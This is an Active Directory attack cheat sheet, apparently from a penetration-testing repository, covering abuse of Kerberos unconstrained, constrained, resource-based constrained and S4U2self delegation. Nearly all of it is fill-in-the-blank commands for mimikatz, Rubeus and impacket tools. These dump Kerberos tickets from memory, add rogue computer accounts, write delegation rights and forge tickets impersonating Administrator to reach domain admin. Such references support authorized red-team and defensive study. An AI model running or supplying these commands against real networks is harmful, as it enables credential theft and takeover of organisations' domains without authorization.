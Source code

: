 # Kerberos Delegation

## Find delegation
- `findDelegation.py "<domain>"/"<user>":"<password>"`
- With BloodHound
  - Unconstrained
    - `MATCH (c:Computer {unconstraineddelegation:true}) RETURN c`
    - `MATCH (c:User {unconstraineddelegation:true}) RETURN c`
  - Constrained
    - `MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p`
    - `MATCH (u:User), (c:Computer {name: "<MYTARGET.FQDN>"}), p=shortestPath((u)-[*1..]->(c)) RETURN p`

## Unconstrained delegation >>> Kerberos TGT >>> PassTheTicket
- UAC: ADS_UF_TRUSTED_FOR_DELEGATION
  - Force connection  with coerce
    - Get tickets 
      - `mimikatz privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export`
      - `Rubeus.exe dump /service:krbtgt /nowrap`
      - `Rubeus.exe dump /luid:0xdeadbeef /nowrap`
      - `Rubeus.exe monitor /interval:5`

## Constrained delegation
- With protocol transition (any) UAC: TRUST_TO_AUTH_FOR_DELEGATION
  - Get TGT for user
    - Request S4u2self
      - Request S4u2proxy
  - `Rubeus.exe hash /password:<password>`
    - `Rubeus.exe asktgt /user:<user> /domain:<domain> /aes256:<AES 256 hash>`
      - `Rubeus.exe s4u /ticket:<ticket> /impersonateuser:<admin_user> /msdsspn:<spn_constrained> /altservice:<altservice> /ptt`
        - Altservice HTTP/HOST/CIFS/LDAP  >>> Kerberos TGS
  - `getST.py -spn '<spn>/<target>' -impersonate Administrator -dc-ip '<dc_ip>' '<domain>/<user>:<password>' -altservice <altservice>`
    - Altservice HTTP/HOST/CIFS/LDAP >>> Kerberos TGS

- Without protocol transition (kerberos only) UAC: TRUSTED_FOR_DELEGATION
  - Constrain between Y and Z
    - Add computer X
      - Add RBCD : delegate from X to Y
        - s4u2self X (impersonate admin)
          - S4u2Proxy X (impersonate admin on spn/Y)
            - Forwardable TGS for Y
              - S4u2Proxy Y (impersonate admin on spn/Z) 
  - add computer account
    - `addcomputer.py -computer-name '<computer_name>' -computer-pass '<ComputerPassword>' -dc-host <dc> -domain-netbios <domain_netbios> '<domain>/<user>:<password>'`
  - RBCD With added computer account >>> Kerberos TGS
    - `rbcd.py -delegate-from '<rbcd_con>$' -delegate-to '<constrained>$' -dc-ip '<dc>' -action 'write' -hashes '<hash>' <domain>/<constrained>$`
      - `getST.py -spn host/<constrained> -impersonate Administrator --dc-ip <dc_ip> '<domain>/<rbcd_con>$:<rbcd_conpass>'`
        - `getST.py -spn <constrained_spn>/<target> -hashes '<hash>' '<domain>/<constrained>$' -impersonate Administrator --dc-ip <dc_ip> -additional-ticket <previous_ticket>`
  - Self RBCD @CVE@
    - Like RBCD without add computer

## Resource-Based Constrained Delegation
- add computer account
  - `addcomputer.py -computer-name '<computer_name>' -computer-pass '<ComputerPassword>' -dc-host <dc> -domain-netbios <domain_netbios> '<domain>/<user>:<password>'`
- RBCD With added computer account
  - `Rubeus.exe hash /password:<computer_pass> /user:<computer> /domain:<domain>`
    - `Rubeus.exe s4u /user:<fake_computer$> /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/<victim.domain.local> /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt` >>> Admin
  - `rbcd.py -delegate-from '<computer>$' -delegate-to '<target>$' -dc-ip '<dc>' -action 'write' <domain>/<user>:<password>`
    - `getST.py -spn host/<dc_fqdn> '<domain>/<computer_account>:<computer_pass>' -impersonate Administrator --dc-ip <dc_ip>` >>> Kerberos TGT >>> Admin

## S4U2self abuse
- Get machine account (X)'s TGT
  - Get a ST on X as user admin
- `getTGT.py -dc-ip "<dc_ip>" -hashes :"<machine_hash>" "<domain>"/"<machine>$"`
  - `getST.py -self -impersonate "<admin>" -altservice "cifs/<machine>" -k -no-pass -dc-ip "DomainController" "<domain>"/'<machine>$'` >>> Admin
